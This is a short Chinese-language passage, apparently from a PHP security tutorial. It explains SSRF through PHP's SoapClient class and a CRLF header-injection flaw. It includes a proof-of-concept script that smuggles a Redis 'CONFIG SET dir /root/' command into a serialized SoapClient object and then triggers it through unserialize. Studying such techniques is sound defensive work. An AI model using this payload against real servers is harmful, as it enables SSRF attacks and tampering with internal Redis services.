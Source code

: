 
![img](assets/804631-20180316165041409-1571225758.jpg)

但是它仅限于http/https协议，可以构造post请求，导致ssrf。



这里http头部还存在crlf漏洞



```php
<?php
$poc = "CONFIG SET dir /root/";
$target = "http://example.com:5555/";
$b = new SoapClient(null,array('location' => $target,'uri'=>'hello^^'.$poc.'^^hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa); 
echo urlencode($aaa);

//Test
$c = unserialize($aaa);
$c->notexists();
```

![img](assets/804631-20180316165113533-1948175046.jpg)
